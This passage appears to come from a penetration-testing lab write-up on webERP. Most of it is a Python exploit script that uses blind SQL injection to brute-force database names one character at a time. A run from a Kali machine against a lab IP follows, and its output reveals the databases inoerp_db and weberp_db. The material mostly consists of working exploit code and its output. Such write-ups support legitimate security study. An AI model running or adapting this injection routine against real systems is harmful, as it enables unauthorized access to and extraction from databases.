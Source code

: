     ip = sys.argv[1] + "/" + sys.argv[2]
    cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
    addSupplierID("GARUMPAGE", cookies, proxies)
    
    chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ$_'
    namesOfDatabases = []
    numberOfDbs = 3;
    
    for i in range(numberOfDbs):
        currentDbName='0'
        if checkForDbName(i, 'information_schema'):
            namesOfDatabases.append('information_schema')
            print "Finally, database #"+str(i+1)+" on server: information_schema"
            continue;
        flagNoMoreChars = False
        while (not flagNoMoreChars):
            for j in range(len(chars)):
                currentDbName = currentDbName[:len(currentDbName)-1] + chars[j]
                if checkForDbName(i, currentDbName):
                    print "database #"+str(i+1)+" on server: " + currentDbName +"...";
                    currentDbName= currentDbName + '0'
                    flagNoMoreChars = False
                    break;
                else:
                    flagNoMoreChars = True
        currentDbName = currentDbName[:len(currentDbName)-1]
        print "Finally, database #"+str(i+1)+" on server: " + currentDbName
        namesOfDatabases.append(currentDbName)
    print "Databases: " + str(namesOfDatabases)
    print "TOTAL TIME = ", time.time() - TOTAL_TIME
    
We once again execute our modified exploit, and see the following output.

kali@kali:~/Desktop/sqliWebERp$ python sqli_dbNames.py 192.168.100.72 "weberp/" admin weberp 0
Finally, database #1 on server: information_schema
database #2 on server: i...
database #2 on server: in...
database #2 on server: ino...
database #2 on server: inoe...
database #2 on server: inoer...
database #2 on server: inoerp...
database #2 on server: inoerp_...
database #2 on server: inoerp_d...
database #2 on server: inoerp_db...
Finally, database #2 on server: inoerp_db
database #3 on server: w...
database #3 on server: we...
database #3 on server: web...
database #3 on server: webe...
database #3 on server: weber...
database #3 on server: weberp...
database #3 on server: weberp_...
database #3 on server: weberp_d...
database #3 on server: weberp_db...
Finally, database #3 on server: weberp_db
Databases: ['information_schema', 'inoerp_db', 'weberp_db']
TOTAL TIME =  36.6472799778
The output reveals an interesting database: inoerp_db.

